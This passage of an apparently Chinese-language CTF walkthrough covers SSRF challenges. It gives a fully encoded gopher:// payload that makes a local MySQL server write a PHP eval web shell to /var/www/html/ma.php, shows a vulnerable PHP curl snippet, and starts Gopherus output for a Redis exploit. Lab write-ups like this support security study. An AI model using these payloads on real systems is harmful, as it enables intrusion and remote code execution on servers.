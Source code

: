 ```bash
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%47%00%00%00%03%73%65%6c%65%63%74%20%27%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%3f%3e%27%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%27%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%6d%61%2e%70%68%70%27%3b%01%00%00%00%01
```

然后传到check.php中post: returl=xxxxx,但是不要忘了把下划线后面的内容url编码一次.

浏览器会对此url进行一次解码，解码后的url可能会含特殊字符，curl提交时需再次编码.

```
returl=gopher://127.0.0.1:3306/_%25a3%2500%2500%2501%2585%25a6%25ff%2501%2500%2500%2500%2501%2521%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2500%2572%256f%256f%2574%2500%2500%256d%2579%2573%2571%256c%255f%256e%2561%2574%2569%2576%2565%255f%2570%2561%2573%2573%2577%256f%2572%2564%2500%2566%2503%255f%256f%2573%2505%254c%2569%256e%2575%2578%250c%255f%2563%256c%2569%2565%256e%2574%255f%256e%2561%256d%2565%2508%256c%2569%2562%256d%2579%2573%2571%256c%2504%255f%2570%2569%2564%2505%2532%2537%2532%2535%2535%250f%255f%2563%256c%2569%2565%256e%2574%255f%2576%2565%2572%2573%2569%256f%256e%2506%2535%252e%2537%252e%2532%2532%2509%255f%2570%256c%2561%2574%2566%256f%2572%256d%2506%2578%2538%2536%255f%2536%2534%250c%2570%2572%256f%2567%2572%2561%256d%255f%256e%2561%256d%2565%2505%256d%2579%2573%2571%256c%2547%2500%2500%2500%2503%2573%2565%256c%2565%2563%2574%2520%2527%253c%253f%2570%2568%2570%2520%2565%2576%2561%256c%2528%2524%255f%2550%254f%2553%2554%255b%2531%255d%2529%253b%253f%253e%2527%2520%2569%256e%2574%256f%2520%256f%2575%2574%2566%2569%256c%2565%2520%2527%252f%2576%2561%2572%252f%2577%2577%2577%252f%2568%2574%256d%256c%252f%256d%2561%252e%2570%2568%2570%2527%253b%2501%2500%2500%2500%2501
```

之后就会生成`ma.php`.

## web360~打redis

```php
 <?php
error_reporting(0);
highlight_file(__FILE__);
$url=$_POST['url'];
$ch=curl_init($url);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$result=curl_exec($ch);
curl_close($ch);
echo ($result);
?> 
```

和上题差不多

```bash
[root@p1 Gopherus]# python gopherus.py --exploit redis


  ________              .__
 /  _____/  ____ ______ |  |__   ___________ __ __  ______
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >
        \/       |__|        \/     \/                 \/

		author: $_SpyD3r_$


Ready To get SHELL

```